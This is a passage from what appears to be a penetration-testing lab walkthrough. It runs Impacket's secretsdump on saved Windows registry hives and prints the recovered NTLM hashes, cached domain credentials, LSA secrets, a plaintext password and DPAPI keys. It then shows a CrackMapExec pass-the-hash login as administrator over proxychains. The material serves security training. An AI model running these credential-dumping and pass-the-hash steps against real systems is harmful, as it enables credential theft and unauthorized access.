 ```shell-session
$ secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3e002600200046005a003000460021004b00460071002e002b004d0042005000480045002e006c00280078007900580044003b0050006100790033006e002a0047004100590020006e002d00390059003b0035003e0077005d005f004b004900400051004e0062005700440074006b005e0075004000490061005d006000610063002400660033003c0061002b0060003900330060006a00620056006e003e00210076004a002100340049003b00210024005d004d006700210051004b002e004f007200290027004c00720030005600760027004f0055003b005500640061004a006900750032006800540033006c00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:cb8a6327fc3dad4ea7c84b88c7542e7c
[*] DefaultPassword 
(Unknown User):Gr8hambino!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22
dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92
[*] NL$KM 
 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.
 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-
NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
[*] Cleaning up... 
```

We confirm that these credentials work using `CrackMapExec` and we now have a way back to this system should we lose our reverse shell.

```shell-session
$ proxychains crackmapexec smb 172.16.8.20 --local-auth -u administrator -H <redacted>

ProxyChains-3.1 (http://proxychains.sf.net)
[*] Initializing LDAP protocol database
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:135-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:ACADEMY-AEN-DEV) (signing:False) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] ACADEMY-AEN-DEV\administrator <redacted> (Pwn3d!)
```
